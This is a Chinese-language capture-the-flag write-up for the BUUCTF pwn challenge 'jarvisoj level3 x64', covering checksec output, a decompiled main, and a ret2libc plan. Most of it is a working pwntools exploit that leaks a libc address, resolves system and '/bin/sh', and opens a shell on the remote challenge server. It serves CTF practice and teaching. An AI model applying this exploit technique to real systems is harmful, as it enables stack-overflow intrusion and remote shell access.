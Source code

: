 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level3 x64
date: 2022-3-28 10:25:20
permalink: /pages/2e1547494524d19e
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level3 x64

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level3_x64/level3_x64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  return write(1, "Hello, World!\n", 0xEuLL);
}
```

vulnerable_function函数及函数表如下

![jarvisoj_level3_x64_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level3_x64_1.png)

## 思路分析

1. 目前信息：
   - vulnerable_function函数可溢出
   - 无system、/bin/sh与后门函数
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 典型的64位ret2libc解法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level3_x64/level3_x64'
io = remote('node4.buuoj.cn', 29803)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 136
libc_start_main_got = elf.got['__libc_start_main']
write_plt = elf.plt['write']
vulnerable_function = elf.symbols['vulnerable_function']
pop_rdi_ret = 0x4006b3
pop_rsi_r15_ret = 0x4006b1
ret=0x400499
payload = flat(['a'*padding, pop_rdi_ret, 1, pop_rsi_r15_ret,libc_start_main_got, 0xdeadbeef, write_plt,vulnerable_function])
# 少设置了write函数的第三个参数rdx为6，但这里不影响，执行write前上一个write的第三个参数rdx为7，中间并没有改变这里可以复用
io.sendafter('Input:\n', payload)
leak_libc_start_main = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
success("leak_libc_start_main:"+hex(leak_libc_start_main))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat(['a'*padding, pop_rdi_ret, bin_sh, system])
io.send(payload)
io.interactive()
```